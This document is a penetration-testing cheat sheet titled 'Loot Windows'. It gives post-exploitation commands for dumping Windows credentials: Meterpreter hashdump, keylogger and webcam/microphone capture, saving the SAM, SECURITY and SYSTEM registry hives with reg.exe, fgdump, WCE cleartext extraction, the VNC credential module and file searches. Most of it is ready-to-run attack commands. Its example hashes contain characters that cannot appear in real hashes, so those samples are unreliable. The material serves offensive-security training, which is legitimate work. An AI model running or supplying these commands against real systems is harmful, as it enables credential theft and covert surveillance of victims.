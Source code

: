 # Loot Windows

## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.  If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:

```
-h
```

**Dump windows hashes for further analysis**

```
hashdump
```

Keylogger

```
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```

## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until \(and including\) Windows 2003 stored the passwords in LAN Manager \(LM\) and NT LAN Manager \(NTLM\). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM &gt;= Windows 2003**

**NTLM &gt; Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` \(`locate fgdump.exe` on kali\) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it.

### Windows Credencial Editor \(WCE\)

WCE can steal NTLM passwords from memory in cleartext!  
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this

```
wce32.exe -w
```

### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.  
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

[http://www.tarasco.org/security/pwdump\_7/](http://www.tarasco.org/security/pwdump_7/)

## VNC

VNC require's a specific password to log in to.  If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## Tcpdump on Windows

You can use meterpreter to easily dump traffic, like this:

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Search for interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```

## References

This is a great post  
[https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)

